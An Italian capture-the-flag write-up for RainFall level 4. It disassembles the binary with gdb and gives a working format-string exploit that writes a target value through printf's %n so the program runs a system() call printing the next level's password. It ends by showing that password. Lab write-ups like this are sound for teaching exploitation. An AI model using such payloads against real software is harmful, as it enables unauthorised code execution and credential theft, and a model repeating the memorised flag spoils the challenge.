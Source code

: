 # Level 4
Per prima cosa controlliamo le stringhe presenti nell'eseguibile:
```
level4@RainFall:~$ readelf -p '.rodata' level4

String dump of section '.rodata':
  [     8]  /bin/cat /home/user/level5/.pass
```
e ora passiamo a `gdb`:
```
level4@RainFall:~$ gdb -q level4
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disass n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disass p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```
Sono presenti tre funzioni da dove analizzare: `main`, `n` e `p`.

### Funzione `main`
Chiama la funzione `n`

### Funzione `n`
Riserva 0x218 (536) byte nello stack e chiama le funzioni `fgets` e `p` nel
seguente modo:
```
fgets(s, 512, stdin);
p(s);
```
per poi controllare nella variabile globale posizionata all'indirizzo `0x8049810`
se contiene il numero 0x1025544 (16930116), se così fosse allora esegue:
```
system("/bin/cat /home/user/level5/.pass");
```
altrimenti termina la funzione.

### Funzione `p`
Chiama la funzione `printf` stampando la stringa che gli viene passata come
argomento.

### Soluzione
Dunque come nel livello precedente bisogna trovare l'offset dell'inizio della
stringa inserita in printf e poi stampare il numero di caratteri giusto per
passare all'esecuzione della funzione `system`:
```
python -c 'print ("\x10\x98\x04\x08" + "%16930112d%12$n")' | ./level4
```
Le uniche differenze rispetto all'exploit del livello successivo sono:
1. Uso `12$` così che `%n` prenda direttamente il dodicesimo argomento così evito di scrivere 11 `%x`
2. Uso `%16930112d` per stampare il restante numero di caratteri invece di scrivere 16930112 volte un qualsiasi carattere

### Output:
```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```